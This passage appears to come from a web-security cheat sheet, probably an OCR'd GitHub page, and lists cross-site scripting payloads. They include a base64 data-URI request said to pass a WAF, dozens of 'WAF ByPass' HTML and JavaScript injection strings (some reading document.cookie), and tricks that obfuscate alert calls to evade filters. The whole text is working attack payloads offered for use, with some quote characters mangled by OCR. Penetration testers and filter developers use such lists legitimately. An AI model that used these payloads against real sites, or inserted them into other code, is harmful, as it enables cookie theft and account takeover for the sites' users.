 • This request will pass through the WAF and an XSS attack will be
conducted in certain browsers.

    /?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

## WAF ByPass Strings for XSS.

    <Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
    <Video> <source onerror = "javascript: alert (XSS)">
    <Input value = "XSS" type = text>
    <applet code="javascript:confirm(document.cookie);">
    <isindex x="javascript:" onmouseover="alert(XSS)">
    "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    "><img src="x:x" onerror="alert(XSS)">
    "><iframe src="javascript:alert(XSS)">
    <object data="javascript:alert(XSS)">
    <isindex type=image src=1 onerror=alert(XSS)>
    <img src=x:alert(alt) onerror=eval(src) alt=0>
    <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
    <iframe/src="data:text/html,<svg onload=alert(1)>">
    <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
    <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
    <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
    <form><a href="javascript:\u0061lert(1)">X
    </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
    <style>//*{x:expression(alert(/xss/))}//<style></style> 
    On Mouse Over​
    <img src="/" =_=" title="onerror='prompt(1)'">
    <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
    <script x> alert(1) </script 1=2
    <form><button formaction=javascript&colon;alert(1)>CLICKME
    <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
    <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> 


## Filter Bypass Alert Obfuscation

    (alert)(1)
    a=alert,a(1)
    [1].find(alert)
    top[“al”+”ert”](1)
    top[/al/.source+/ert/.source](1)
    al\u0065rt(1)
    top[‘al\145rt’](1)
    top[‘al\x65rt’](1)
    top[8680439..toString(30)](1)
